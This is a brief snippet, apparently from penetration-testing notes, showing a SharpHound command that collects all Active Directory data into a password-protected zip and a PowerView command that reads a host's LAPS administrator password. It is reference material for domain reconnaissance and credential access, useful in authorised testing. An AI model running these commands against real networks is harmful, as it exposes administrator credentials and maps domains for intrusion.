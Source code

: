 Sharphound:
```
Invoke-BloodHound -CollectionMethods All -ZipFilename ofir -ZipPassword Aa123456 -OutputDirectory C:\Users\Public\
```

PowerView:
```
# Get LAPS password
Get-DomainObject -Identity WEB05 -Properties ms-Mcs-AdmPwd
```
